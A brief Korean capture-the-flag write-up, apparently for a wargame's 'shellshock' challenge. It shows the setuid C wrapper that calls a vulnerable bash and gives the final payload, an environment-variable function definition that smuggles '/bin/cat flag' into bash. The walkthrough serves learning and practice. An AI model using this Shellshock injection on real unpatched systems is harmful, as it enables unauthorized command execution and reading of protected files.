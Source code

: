 # shellshock
shellshock 에 대한 설명은 다른 사이트에서 참조하길 바란다.&nbsp
bash 는 취약점이 존재하는 bash 로, 환경변수를 통해 함수를 정의한 후 임의의 명령을 추가하면 해당 명령이 실행된다.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

shellshock 파일이 실행될 때, 취약한 bash 로 /bin/cat flag 가 parsing 되어 실행된다.

최종 페이로드는 다음과 같다.

env x='() { :;}; /bin/cat flag' ./shellshock

